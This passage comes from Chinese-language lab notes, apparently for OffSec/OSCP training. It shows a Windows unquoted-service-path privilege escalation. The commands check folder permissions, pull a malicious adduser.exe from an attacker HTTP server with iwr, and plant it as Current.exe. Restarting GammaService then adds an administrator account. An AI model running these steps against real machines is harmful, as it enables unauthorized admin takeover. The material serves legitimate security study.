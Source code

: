 ```
PS C:\Users\steve> icacls "C:\Program Files\Enterprise Apps"
C:\Program Files\Enterprise Apps NT SERVICE\TrustedInstaller:(CI)(F)
                                 NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                 BUILTIN\Administrators:(OI)(CI)(F)
                                 BUILTIN\Users:(OI)(CI)(RX,W)
                                 CREATOR OWNER:(OI)(CI)(IO)(F)
                                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(RX)
                                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
```
> BUILTIN\Users:(OI)(CI)(RX,W)\
> 只能針對 `C:\Program Files\Enterprise Apps\` 下手

目標 :golf:： 將一個名為 `Current.exe` 的惡意檔案放入 `C:\Program Files\Enterprise Apps\` 中。

#### 4. 將 malicious executable 存入對應路徑
可以使用上方 [Service Binary Hijacking](#Service-Binary-Hijacking) 編譯好的 adduser.exe 
```
┌──(chw㉿CHW)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
```
PS C:\Users\steve> iwr -uri http://192.168.45.212/adduser.exe -Outfile Current.exe
PS C:\Users\steve> copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
```
> 複製到指令路徑後，重啟服務將會執行 `Current.exe` 而不是原始服務二進位檔 `GammaServ.exe`

#### 5. 重啟指定服務
```
PS C:\Users\steve> Start-Service GammaService
Start-Service : Service 'GammaService (GammaService)' cannot be started due to the following error: Cannot start
service GammaService on computer '.'.
At line:1 char:1
+ Start-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Start-Service],
   ServiceCommandException
    + FullyQualifiedErrorId : CouldNotStartService,Microsoft.PowerShell.Commands.StartServiceCommand
```
> 這個錯誤源自於 cross-compiled C code 不接受原始服務二進位路徑剩餘的參數\
> 🥚 `Current.exe` 仍會被成功執行
```
PS C:\Users\steve> net user

Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    offsec                   steve
WDAGUtilityAccount
The command completed successfully.

PS C:\Users\steve> net localgroup administrators
...
Members

-------------------------------------------------------------------------------
Administrator
BackupAdmin
dave2
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir